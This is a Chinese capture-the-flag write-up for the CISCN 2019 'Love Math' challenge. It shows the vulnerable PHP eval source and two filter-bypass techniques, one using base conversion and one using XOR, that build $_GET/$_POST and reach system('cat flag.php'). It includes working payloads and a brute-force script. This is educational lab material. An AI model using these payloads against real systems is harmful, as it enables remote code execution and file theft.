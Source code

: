 # \[CISCN 2019 初赛]Love Math

## \[CISCN 2019 初赛]Love Math

## 考点

* 根据白名单构造RCE字符串
* 类似于无字符RCE的构造思路

## wp

给了源码，只能使用白名单里面的函数

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

已知条件:

1. 传入的参数 c 进入 eval 函数中执行
2. c 的长度小于 80
3. c 中不含有黑名单中的字符
4. c 中的字符串必须在白名单中
5. 可以执行的函数只有白名单中的

思路:

1. 使用白名单里的字符构造 RCE 函数
2. 构造出 `$_GET/$_POST`传参，防止 c 长度过长
3. `!@#$%^&*()-+.{}|`等未被过滤
4. 这里在 url 栏输入 +\&# 是会被浏览器分别解析为空格，参数连接符，锚点，应使用URL编码后传入

### 第一种方法

通过进制转换来构造，16进制包含`0-9a-f`，没有包含所有字符，很难利用，但是36进制包含`0-9a-z`

例如，`hex2bin("5f474554")` 就是 `_GET`

![](<../.gitbook/assets/image (3) (1).png>)

![](<../.gitbook/assets/image (32).png>)

最后就构造出来了构造出来了 `_GET`，是`base_convert(37907361743,10,36)(dechex(1598506324));`

在获取 GET/POST 的参数时，可以使用 `$_GET["a"]` 但是还有另外一种用法，使用$\_GET{a}。另外，PHP不加引号的内容，默认作为字符串处理，会抛出警告。

如此，把`base_convert(37907361743,10,36)(dechex(1598506324))`赋值给`pi`，在使用$pi，就可以获得`$_GET`，再进行传参就可以了，即如下

```php
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324)); // _GET
($$pi){pow}($$pi{abs}); // $_GET["pow"]($_GET["abs"])
```

payload

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pow}($$pi{abs})&pow=system&abs=cat flag.php
```

### 第二种方法

通过异或来构造，在 php 中可以对字符串进行异或，其原理就是对字符串中每个字符对应的 ASCII 值进行异或，这就要通过爆破来进行了

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach($whitelist as $w){
    for($a=1;$a<999999;$a++){
        $res = $w ^ decoct($a);
        if(strpos($res,"_POST")===0){
            echo $w.'   '.$a.'   ';
            echo $res;
            echo "\n";
        }
    }
}
```

![](<../.gitbook/assets/image (19) (1) (1).png>)

最终 payload: `?c=$pi=${(hexdec^decoct(31737))};$pi{pow}($pi{abs});`
